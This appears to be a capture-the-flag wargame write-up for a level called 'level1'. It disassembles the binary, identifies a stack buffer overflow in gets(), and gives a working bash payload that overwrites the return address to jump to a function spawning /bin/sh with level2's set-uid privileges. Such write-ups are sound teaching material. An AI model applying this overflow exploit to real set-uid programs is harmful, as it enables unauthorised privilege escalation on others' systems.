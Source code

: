 level1
======

Dissassembly
------------

To dissassemble the executable we can use gdb.
```sh
FUNCTION=main EXECUTABLE=./level1
gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble/r $FUNCTION" "$EXECUTABLE"
```

The main function looks like this:
```nasm
Dump of assembler code for function main:
   0x08048480 <+0>:     55                push   ebp
   0x08048481 <+1>:     89 e5             mov    ebp,esp
   0x08048483 <+3>:     83 e4 f0          and    esp,0xfffffff0
   0x08048486 <+6>:     83 ec 50          sub    esp,0x50
   0x08048489 <+9>:     8d 44 24 10       lea    eax,[esp+0x10]
   0x0804848d <+13>:    89 04 24          mov    DWORD PTR [esp],eax
   0x08048490 <+16>:    e8 ab fe ff ff    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    c9                leave
   0x08048496 <+22>:    c3                ret
End of assembler dump.
```

The stack looks like this:
| Address | Type          | Size |
|---------|---------------|------|
| -72     | char data[72] | 72   |
|   0     | *EBP          |  4   |
|  +4     | *EIP          |  4   |

Exploitation
------------

This is a typical case of stack-buffer overflow. This means we can overwrite data preceding the buffer on the stack, notably the return pointer preceding the buffer on the stack.

So let's see if we can exploit an existing function in the executable.

To list all functions we can use nm or objdump. Functions are located in the .text section:
```sh
objdump -M intel intel-mnemonic --disassemble ./level1
```

There is a function called `run`, which seams interesting:
```nasm
...
08048444 <run>:
 8048444:	55                   	push   ebp
 8048445:	89 e5                	mov    ebp,esp
 8048447:	83 ec 18             	sub    esp,0x18
 804844a:	a1 c0 97 04 08       	mov    eax,ds:0x80497c0
 804844f:	89 c2                	mov    edx,eax
 8048451:	b8 70 85 04 08       	mov    eax,0x8048570
 8048456:	89 54 24 0c          	mov    DWORD PTR [esp+0xc],edx
 804845a:	c7 44 24 08 13 00 00 	mov    DWORD PTR [esp+0x8],0x13
 8048461:	00
 8048462:	c7 44 24 04 01 00 00 	mov    DWORD PTR [esp+0x4],0x1
 8048469:	00
 804846a:	89 04 24             	mov    DWORD PTR [esp],eax
 804846d:	e8 de fe ff ff       	call   8048350 <fwrite@plt>
 8048472:	c7 04 24 84 85 04 08 	mov    DWORD PTR [esp],0x8048584
 8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
 804847e:	c9                   	leave
 804847f:	c3                   	ret
...

```
We can see a call to system here:
```
8048472:	c7 04 24 84 85 04 08 	mov    DWORD PTR [esp],0x8048584
8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
```

The argument pushed on the stack is a string that is going to be executed with the level2 user's set-uid privileges.
Let's look at the string's content:
```sh
EXECUTABLE=level1
ADDRESS=0x8048584
gdb -batch -ex "x/s $ADDRESS" "$EXECUTABLE"
```

We can see that there already is all we need to gain the level2 user's privileges:
```
0x8048584:	 "/bin/sh"
```

All that is left to do is to craft an input string long enough to overflow the data array, and the base-pointer's value `*EBP` to be able to overwrite the return-pointer's value `*EIP`.

```sh
> /tmp/level1.sh cat << EOF
```
```bash
#!/usr/bin/env bash
PADDING_LEN=76 # sizeof(data) + sizeof(*EBP)

RETURN_ADDRESS='08048444' # The address of the run function

PADDING=$(printf "%.0sA" $(seq -s' ' "$PADDING_LEN"))
BYTES=$(<<< "$RETURN_ADDRESS" rev | dd conv=swab | xxd -r -p)

echo "$PADDING$BYTES"
```
```sh
EOF
chmod +x /tmp/level1.sh
```

```sh
(/tmp/level1.sh; cat) | ./level1
```
```
Good... Wait what?
whoami
level2
```
